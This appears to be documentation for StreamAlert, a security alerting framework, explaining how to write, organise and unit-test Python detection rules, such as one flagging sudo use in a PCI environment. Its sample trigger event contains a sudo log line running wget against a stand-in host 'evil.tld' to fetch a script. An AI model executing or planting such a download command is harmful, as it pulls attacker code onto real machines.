 Rules
=====

* Rules encompass data analysis and alerting logic
* Rules are written in native Python, not a proprietary language
* A Rule can utilize any Python function or library
* A Rule can be run against multiple log sources if desired
* Rules can be isolated into defined environments/clusters
* Rule alerts can be sent to one or more outputs, like S3, PagerDuty or Slack
* Rules can be unit tested and integration tested

Location
--------

Rules are stored in the ``rules/`` sub-directory

A separate .py should be made for each cluster you defined in the variables.json file.

Example: ``it.py``, ``pci.py``, ``production.py``

Overview
--------

All rules take this form::

    @rule('example', logs=[...], matchers=[...], outputs=[...])
    def example(rec):
        # analyze the incoming record w/your logic
        return (
            # return true if an alert should be sent
        )

``rec`` is an incoming record from any one of the configured datasources. You define ``logs`` and ``matchers`` to ensure the logic within the ``def`` function block only runs against logs that it should.


Example
-------

Here’s an example that alerts on the use of sudo in a PCI environment::

    @rule('production_sudo',                          # name of the rule
          logs=['osquery'],                           # applicable datasource(s)
          matchers=['pci'],                           # matcher(s) to evaluate
          outputs=['s3', 'pagerduty', 'slack'])       # where to send alerts
    def production_sudo(rec):                         # rec = incoming record/log
        table_name = rec['name']
        tag = rec['columns']['tag']
        return (
          table_name == 'linux_syslog_auth' and
          fnmatch(tag, 'sudo*')
        )

You have the flexibility to perform simple or complex data analysis

Parameter Details
-----------------

logs
~~~~~~~~~~~

``logs`` defines the log sources the rule supports; the ``def`` function block is not run unless this condition is satisfied.

A rule can be run against multiple log sources if desired.

Log sources (e.g. datasources) are defined in ``conf/sources.json`` and subsequent schemas are defined in ``conf/logs.json``. For more details on how to setup a datasource, please see the Datasources section.

matchers
~~~~~~~~

``matchers`` defines the conditions that need to be satisfied in order for the ``def`` function block to run against an incoming record.

Matchers are defined in ``rules/matchers.py``

Matchers can serve 2 purposes:

* To extract common logic into helpers. This improves readability and writability
* To ensure necessary conditions are met prior to analysis of the incoming record

In the above example, we are evaluating the ``pci`` matcher. As you can likely deduce, this ensures rule logic is only run if the incoming record is coming from the pci environment. This is achieved by looking for a particular field in the log. The code::

    @matcher('pci')
    def is_prod_env(rec):
        return rec['decorations']['envIdentifier'] == 'pci'


outputs
~~~~~~~

``outputs`` defines where the alert should be sent to, if the return value of the function is true.

StreamAlert supports sending alerts to PagerDuty, Slack and AWS S3. As demonstrated in the example, an alert can be sent to multiple destinations.


Helpers
-------
To improve readability and writeability, you can put commonly used logic in functions in ``stream_alert/rule_helpers.py`` and then call the function from within your rule.

Example function::

    def in_set(data, whitelist):
        """Checks if some data exists in any elements of a whitelist.

        Args:
            data: element in list
            whitelist: list/set to search in

        Returns:
            True/False
        """
        return any(fnmatch(data, x) for x in whitelist)

Example use of that function within a rule::

    @rule('foobar', ...)
    def foobar(rec):
        ...
        user = ...
        user_whitelist = ...
        ...
        return (
          in_set(user,user_whitelist)
        )


Testing
-------

The ``test/fixtures/kinesis/`` subdirectory will contain folders for each cluster/environment.

Within each of these folders you can define:

* ``non_trigger_events.json``
* ``trigger_events.json``

This allows you to unit test your rules for expected behavior.

Recall our earlier example that alerts on the use of sudo in the pci environment. In ``trigger_events.json``, you would add an example log that should alert::

    {
    "name":"linux_syslog_auth",
    "hostIdentifier":"foobar",
    "unixTime":"1470824034",
    "decorations":{
        "envIdentifier":"pci",
        "roleIdentifier":"memcache"
        },
    "columns":{
        "tag":"sudo",
        "message":"john_adams : TTY=pts/0 ; PWD=/home/john_adams ; USER=root ; COMMAND=/usr/bin/wget http://evil.tld/x.sh",
        "facility": "authpriv"
    },
    "action":"added"
    }


.. warning:: One event per line. This log was put on multiple lines for readability and education purposes.

And lastly, in ``non_trigger_events.json``, you would add an example that shouldn't fire.




